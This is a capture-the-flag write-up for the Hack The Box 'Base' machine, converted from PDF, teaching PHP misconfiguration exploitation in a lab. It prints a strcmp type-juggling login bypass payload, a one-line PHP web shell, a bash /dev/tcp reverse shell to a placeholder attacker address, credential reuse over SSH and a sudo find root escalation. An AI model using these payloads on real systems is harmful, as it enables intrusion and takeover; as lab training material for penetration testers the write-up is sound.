









# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Base Write-up Prepared by: dotguy Introduction

## Extracted walkthrough

### Page 1

```
Base Write-up

Prepared by: dotguy
Introduction

PHP is one of the most popular back-end languages in the world. It's flexible, cross-platform compatible, 
cost-efficient and easy to learn. Services like Facebook, Wikipedia, Tumblr, HackTheBox, and Yahoo are built 
with PHP, not to mention Wordpress and other content management systems. However, PHP can often be 
misconfigured, which leaves huge vulnerability holes in the system, which cyber criminals could exploit. 
Ethical Hackers & Penetration testers need to know how PHP works, along with the many varieties of 
misconfiguration that they can discover. The Base machine teaches us how useful it is to analyze code & 
how one slight mistake can lead to a fatal vulnerability.
Enumeration

As always, we will check for open ports using an Nmap scan:
The scan shows two ports open - Port 80 (HTTP) and Port 22 (SSH). We start off with enumerating port 80 
using our web browser.
sudo nmap -sC -sV 10.10.10.48
```


### Page 2

```
We can see a very simple webpage with the provided links in the navigation bar. By clicking the Login 
button, we are presented with the login page:
Notice the URL of the login page is http://10.10.10.48/login/login.php . 
We can see that there is a login directory, where the login.php  is stored. Let's try accessing that directory 
by removing login.php  from the end of the URL.
```


### Page 3

```
The /login  folder seems to be configured as listable, and we can see the php  files that are responsible for 
the login task. There's also a .swp  file, which is a swap file. 
Swap files store the changes that are made to the buffer. If Vim or your computer crashes, the swap files 
allow you to recover those changes. Swap files also provide a way to avoid multiple instances of an editor 
like Vim from editing the same file. More information on swap files can be found here.
The swap file was probably created due to a crash of the Vim application while the developer was editing 
the file. The file ended up being unnoticed and left in the web application files where anyone can download 
it by clicking on the login.php.swp  in the listable directory. The web server is set up to handle requests to 
.php  files by running the PHP code in the file, but because the extension of the swap file isn't .php , the 
web server returns the raw code as text.
Let us click on this file and download it for further analysis. Navigate to the folder where the file is 
downloaded and read it to see if any parts of the code from login.php  were saved. Typically the most 
straight forward way to recover a Vim swap file is with the vim -r [swap file] . But sometimes these files 
can be particular and won't recover. 
As .swp  is a temporary file, it contains a lot of non-human-readable content, thus we will use the strings  
utility to read this swap file because strings  will only display the human-readable text. 
The Linux "strings" command makes it possible to view the human-readable characters within any file. The 
main purpose of using the "strings" command is to work out what type of file you're looking at, but you can 
also use it to extract text.
The output from the strings command is as follows:
strings login.php.swp
b0VIM 8.0                                                                               

root                                                                                   

base                                                                                   

/var/www/html/login/login.php
```




### Page 4

```
3210                                                                                   

#"!                                                                                     

                  <input type="text" name="username" class="form-control" style="max-
width: 30%;" id="username" placeholder="Your U
sername" required>                                                                     

                <div class="form-group">                         
              <div class="row" align="center">                   
            <form id="login-form" action="" method="POST" role="form" 
style="background-color:#f8fbfe">                            
          <div class="col-lg-12 mt-5 mt-lg-0">                                         

        <div class="row mt-2">                                                         

        </div>                                                                         

          <p>Use the form below to log into your account.</p>    
          <h2>Login</h2>                                         
        <div class="section-title mt-5" >                        
      <div class="container" data-aos="fade-up">                 
    <section id="login" class="contact section-bg" style="padding: 160px 0">           

    <!-- ======= Login Section ======= -->                                             

  </header><!-- End Header -->                                                         

    </div>                                                                             

      </nav><!-- .navbar -->                                                           

        <i class="bi bi-list mobile-nav-toggle"></i>                                   

        </ul>                                                                           

          <li><a class="nav-link scrollto action" href="/login.php">Login</a></li>     

          <li><a class="nav-link scrollto" href="/#contact">Contact</a></li>           

          <li><a class="nav-link scrollto" href="/#pricing">Pricing</a></li>           

          <li><a class="nav-link scrollto" href="/#team">Team</a></li>                 

          <li><a class="nav-link scrollto" href="/#services">Services</a></li>         

          <li><a class="nav-link scrollto" href="/#about">About</a></li>
```


### Page 5

```
<li><a class="nav-link scrollto" href="/#hero">Home</a></li>                 

        <ul>
      <nav id="navbar" class="navbar">
      <!-- <a href="index.html" class="logo"></a>-->                    
      <!-- Uncomment below if you prefer to use an image logo -->                       

      <h1 class="logo"><a href="index.html">BASE</a></h1>
    <div class="container d-flex align-items-center justify-content-between">           

  <header id="header" class="fixed-top">
  <!-- ======= Header ======= -->
<body>
</head>
  <link href="../assets/css/style.css" rel="stylesheet">
  <!-- Template Main CSS File -->
  <link href="../assets/vendor/swiper/swiper-bundle.min.css" rel="stylesheet">         

  <link href="../assets/vendor/remixicon/remixicon.css" rel="stylesheet">               

  <link href="../assets/vendor/glightbox/css/glightbox.min.css" rel="stylesheet">       

  <link href="../assets/vendor/boxicons/css/boxicons.min.css" rel="stylesheet">         

  <link href="../assets/vendor/bootstrap-icons/bootstrap-icons.css" rel="stylesheet">   

  <link href="../assets/vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">       

  <link href="../assets/vendor/aos/aos.css" rel="stylesheet">
  <!-- Vendor CSS Files -->
  <link href="https://fonts.googleapis.com/css?
family=Open+Sans:300,300i,400,400i,600,600i,700,700i|Raleway:300,300i,400,400i,500,5
00i,600,600i,700,700i|Poppins:300,300i,400,400i,500,500i,600,600i,700,700i" 
rel="stylesheet">
  <!-- Google Fonts -->
  <link href="../assets/img/apple-touch-icon.png" rel="apple-touch-icon">               

  <link href="../assets/img/favicon.png" rel="icon">
  <!-- Favicons -->
  <meta content="" name="keywords">
  <meta content="" name="description">
  <title>Welcome to Base</title> 
  <meta content="width=device-width, initial-scale=1.0" name="viewport">               

  <meta charset="utf-8">
<head>
<html lang="en">
<!DOCTYPE html>
```


### Page 6

```
After checking the code, we can see HTML/PHP code, but it's out of order and a bit jumbled. Still, there's 
enough there that we can figure out what the code is trying to do. Specifically, the block of PHP code that 
handles login appears to be upside down. To make it look normal we can place the output of the strings  
command inside a new file and read it with the tac  utility, which reads files similar to cat  but instead does 
so in a backwards manner.
    }
        print("<script>alert('Wrong Username or Password')</script>");                 

    } else {
        }
            print("<script>alert('Wrong Username or Password')</script>");             

        } else {
            header("Location: /upload.php");
            $_SESSION['user_id'] = 1;
        if (strcmp($password, $_POST['password']) == 0) {
    if (strcmp($username, $_POST['username']) == 0) {
    require('config.php');
if (!empty($_POST['username']) && !empty($_POST['password'])) {
session_start();
<?php
</html>
</body>
  <script src="../assets/js/main.js"></script>
strings login.php.swp >> file.txt
tac file.txt
```


### Page 7

```
Now the output is much better for reading. After analyzing the file, here's the part that is interesting:
# <** SNIP **>
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;                            
            header("Location: /upload.php");                            
        } else {
```




### Page 8

```
This file checks the username/password combination that the user submits against the variables that are 
stored in the config file (which is potentially communicating with a database) to see if they match.
Now, here's the issue:
The developer is using the strcmp  function to check the username and password combination. This 
function is used for string comparison and returns 0  when the two inputted values are identical, however, 
it is insecure and the authentication process can potentially be bypassed without having a valid username 
and password.
This is due to the fact that if strcmp  is given an empty array to compare against the stored password, it will 
return NULL . In PHP the ==  operator only checks the value of a variable for equality, and the value of NULL  
is equal to 0 . The correct way to write this would be with the ===  operator which checks both value and 
type. These are prominently known as "Type Juggling bugs" and a detailed video explanation on this can be 
found here.
In PHP, variables can be easily converted into arrays if we add []  in front of them. For example:
Adding []  changes the variable $username  to an array, which means that strcmp()  will compare the 
array instead of a string.
In the above code we see that if the comparison succeeds and returns 0 , the login is successful. If we 
convert those variables into empty arrays ( $username[]  & $password[] ), the comparison will return 
NULL , and NULL == 0  will return true, causing the login to be successful.
In order to exploit this vulnerability, we will need to intercept the login request in BurpSuite. To do so fire up 
BurpSuite and configure the browser to use it as a proxy, either with the FoxyProxy plugin or the Browser 
configuration page. Then send a login request with a random set of credentials and catch the request in 
Burp.
            print("<script>alert('Wrong Username or Password')</script>");        
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
# <** SNIP **>
if (strcmp($username , $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
$username = "Admin"
$username[] = "Admin"
if (strcmp($username , $_POST['username']) == 0) {
   if (strcmp($password, $_POST['password']) == 0) {
```


### Page 9

```
Change the POST data as follows to bypass the login.
This converts the variables to arrays and after forwarding the request, strcmp()  returns true  and the 
login is successful. Once logged in, we see a file upload functionality.
username[]=admin&password[]=pass
```


### Page 10

```
Foothold

Since the webpage can execute PHP code, we can try uploading a PHP file to check if PHP file uploads are 
allowed or not, and also check for PHP code execution.
Let us create a PHP file with the phpinfo()  function, which outputs the configurational information of the 
PHP installation.
After test.php  has been created, choose the file after clicking the Upload  button, and we will be 
presented with the following notification, which shows that the file was successfully uploaded.
echo "<?php phpinfo(); ?>" > test.php
```


### Page 11

```
Next, we need to figure out where uploaded files are stored. To do that, we will use Gobuster to do a 
directory brute force. 
The scan shows that a folder called _uploaded  exists. We will navigate to it to see if our file is there. It 
appears that this folder has also been set as listable and we can see all the files that are uploaded.
gobuster dir --url http://10.10.10.48/ --wordlist /usr/share/wordlists/dirb/big.txt
```




### Page 12

```
Upon clicking on test.php , we can see the output of the phpinfo()  command, thus confirming code 
execution.

Let us now create a PHP web shell which uses the system()  function and a cmd  URL parameter to execute 
system commands. 
Place the following code into a file called webshell.php .
<?php echo system($_REQUEST['cmd']);?>
```


### Page 13

```
We are making use of the $_REQUEST  method to fetch the cmd  parameter because it works for fetching 
both URL parameters in GET  requests and HTTP request body parameters in case of POST  requests. 
Furthermore, we also use a POST request later in the walkthrough, thus using the $_REQUEST  method is the 
most effective way to fetch the cmd  parameter in this context.
After the web shell has been created, upload it as shown previously.
After the file has been uploaded, click on it in the browser and it will show a blank page, however, if we add 
a system command in the cmd  URL parameter, the PHP backend will execute its value, e.g: ?cmd=id .
The above URL returns with the output of the id  command, letting us know that Apache is running in the 
context of the user www-data . Let's intercept this request in BurpSuite and send it to the repeater tab by 
pressing the CTRL+R  shortcut, or by right-clicking inside the request and selecting Send to Repeater .
```







### Page 14

```
Now that we know we can execute code on the remote system, let's attempt to get a reverse shell. The 
current request is an HTTP GET request and we can attempt to use it to send a command that will grant us a 
reverse shell on the system, however, it is likely that one might encounter errors due to the presence of 
special characters in the URL (even after URL encoding them). Instead, let us convert this GET request to a 
POST request and send the reverse shell command as an HTTP POST parameter.
Right-click inside the Request body box, and click on the "Change request method" in order to convert this 
HTTP GET request to an HTTP POST request.
```


### Page 15

```
In the repeater tab, we can alter the request and set the following reverse shell payload as a value for the 
cmd  parameter.
This reverse shell payload will make the remote host connect back to us with an interactive bash shell on 
the specified port that we are listening on.
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```


### Page 16

```
In order to execute our payload, we will have to first URL encode it.  For URL encoding the payload, select 
the payload text in the request body and press CTRL+U .
It's important to URL encode the payload, or else the server will not interpret the command correctly. For 
example, in the POST body, the &  character is used to signal the start of a new parameter. But we have two 
&  characters in our string that are both a part of the cmd  parameter. By encoding them, this tells the server 
to treat this entire string as part of cmd .
Let's now start a Netcat listener on port 443 and then send the request in Burp for the payload to execute.
```




### Page 17

```
A reverse shell on the system is successfully received.
Lateral Movement

As we already know, the Apache server is running as the www-data  use and the shell we received is also 
running in the context of this user. www-data  is a default user on systems where web servers are installed 
and usually has minimal privileges. Let's enumerate the system to see if we can find any interesting 
information that might allow us to escalate our privileges.
We will first check the configuration file in the login  folder that we found earlier. These configuration files 
often include credentials that are used to communicate with SQL or other types of data storage servers. 
Let's read it.
The config.php  file reveals a set of credentials. System administrators often re-use passwords between 
web and system accounts so that they do not forget them. Let us enumerate further to see if this password 
is valid for any system user. To do that, we will first list the files in the /home  directory to quickly identify the 
users on the system.
sudo nc -lvnp 443
cat /var/www/html/login/config.php
$username = "admin";
$password = "thisisagoodpassword";
```


### Page 18

```
A folder called John  is found, which gives us a valid username.
The su  command can usually be used to switch to a different user in Linux, however, as our shell is not fully 
interactive, this command will fail. There are methods for upgrading this shell to an interactive one, but 
luckily, the Nmap scan showed that port 22 is open, which means we can attempt to log in as the user John  
over SSH with the password that we identified.
ls /home
ssh john@10.10.10.48
```




### Page 19

```
This is successful and the flag can be found in the users home directory, i.e. /home/john/user.txt .
Privilege Escalation

We now need to escalate our privileges to that of the root  user, who has the highest privileges in the 
system. Instead of running a system enumeration tool like  linPEAS , let us first perform some basic manual 
enumeration. Upon checking the sudo -l  command output, which lists the sudo privileges that our user is 
assigned, we see that user john  can run the find  command as a root.
sudo -l
```




### Page 20

```
It is rarely a good idea to allow a system user to run a binary with elevated privileges, as the default binaries 
on Linux often contain parameters that can be used to run system commands. A good list of these binaries 
can be found in the GTFOBins website.
For windows systems, the equivalent of this is the LOLBAS.
Once we navigate to the GTFObins website, we can search for find .
Under the  Sudo  section we see the following.
According to GTFOBins , we need to run the following command in order to escalate our privileges:
GTFOBins is a curated list of Unix binaries that can be used to bypass local security 
restrictions in misconfigured systems.
sudo find . -exec /bin/sh \; -quit
```


### Page 21

```
The -exec  flag is used with find  to run some command on each matching file that is found. We'll abuse 
this to just run a shell, and since the process is running as root (from sudo ), that shell will also be running 
as root. Instead of sh , we will use bash  as it offers better syntax and it is actually an improvement over 
sh . Once we run this command, we successfully obtain a root shell.
The root flag can be found in the root folder, /root/root.txt .
You have successfully finished the Base machine. Congratulations!
```





---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
